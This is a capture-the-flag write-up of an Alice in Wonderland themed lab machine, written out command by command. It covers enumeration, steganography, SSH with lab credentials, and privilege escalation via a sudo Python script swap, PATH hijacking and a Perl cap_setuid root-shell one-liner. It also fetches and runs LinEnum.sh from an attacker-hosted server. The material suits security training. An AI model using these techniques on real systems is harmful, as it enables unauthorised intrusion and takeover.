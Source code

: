 **Target IP:** `10.10.138.89`  
**Open Ports:** `22 (SSH)`, `80 (HTTP)`
[[CTF Notes]]
---
### 🔍 Port Scanning

Initial scan revealed:

- **22** - SSH

- **80** - HTTP

### 📂 Directory Enumeration
Used `gobuster` to enumerate hidden web directories:

```bash
gobuster dir -u http://10.10.138.89 -w /usr/share/wordlists/dirb/common.txt
```

Found:
- `/img`

- `/r`

## 🔎 Enumeration & Initial Access

### 🖼 Steganography

Downloaded `white_rabbit_1.jpg` from `/img`.  
Extracted hidden data using `steghide`:

```bash
steghide extract -sf white_rabbit_1.jpg
```

Found `hint.txt`:

```
"follow the r a b b i t"
```

Manually navigated to:

```
http://10.10.138.89/r/a/b/b/i/t
```

View source revealed SSH credentials:

- **Username:** `alice`
    
- **Password:** `HowDothTheLittleCrocodileImproveHisShiningTail`

## 🔐 SSH Access & User Enumeration

Logged in as Alice:

```bash
ssh alice@10.10.138.89
```

Retrieved **user flag**:

```bash
cat /root/user.txt
```

Explored Alice's home directory and found:

- A Python script printing Alice in Wonderland quotes
    
- A `sudo` permission:

```bash
User alice may run the following command:
(rabbit) /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Replaced the script with a reverse shell:

```python
# walrus_and_the_carpenter.py
import os
os.system("/bin/bash")
```

Executed with elevated permissions:

```bash
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```

Now accessed user **rabbit**.

---

## 🧪 Privilege Escalation to Hatter

Found a binary called `teaParty` in `/home/rabbit/`.  
Downloaded it to Kali for analysis:

```bash
# On target
python3 -m http.server 8000

# On Kali
wget http://<IP>:8000/teaParty
```

Ran `strings teaParty` and found:

```bash
/bin/echo -n 'Probably by ' && date --date='next hour' -R
```

#### 🧠 Exploit Path Hijacking

Created a fake `date` binary:

```bash
#!/bin/bash
/bin/bash
```

Made it executable:

```bash
chmod +x date
```

Modified the `PATH` so our version is used:

```bash
export PATH=/home/rabbit:$PATH
```

Executed:

```bash
./teaParty
```

---
## 🧨 Final Privilege Escalation (Root)

Found a password file in Hatter’s home:

```bash
/home/hatter/password.txt → WhyIsARavenLikeAWritingDesk?
```

Uploaded **LinEnum.sh** for system enumeration:

```bash
# On Kali
python3 -m http.server 8000

# On target
wget http://<KALI_IP>:8000/LinEnum.sh
chmod +x LinEnum.sh && ./LinEnum.sh
```

Found capabilites:

```bash
[+] Files with POSIX capabilities set:
/usr/bin/perl5.26.1 = cap_setuid+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/perl = cap_setuid+ep
```

Perl has `cap_setuid+ep`, allowing escalation.

#### 💥 Root Shell via Perl

```bash
./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```

Now we have a root shell 

---
## 🏁 Post-Exploitation

Retrieved final flag:

```bash
cat alice/home/root.txt
```

Root Flag:

```
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```

---

## ✅ Summary

- Enumeration involved steganography and deep URL paths

- SSH credentials hidden in source

- Multi-user privilege escalation:
    
    - Alice → Rabbit via `sudo python`
        
    - Rabbit → Hatter via PATH hijacking
        
    - Hatter → Root via Perl capabilities
        
- Each step referenced literary quotes/themes from _Alice in Wonderland_

---

## 🧰 Tools Used

- `nmap`, `gobuster`
    
- `steghide`
    
- `strings`
    
- `LinEnum`
    
- `python3 -m http.server`
    
- `perl`, `bash`

---

## 💡 Lessons Learned

- Always inspect web source and image metadata
    
- Steganography can hide initial footholds
    
- PATH hijacking is effective when binaries call other binaries
    
- POSIX capabilities like `cap_setuid` are a great privesc vector









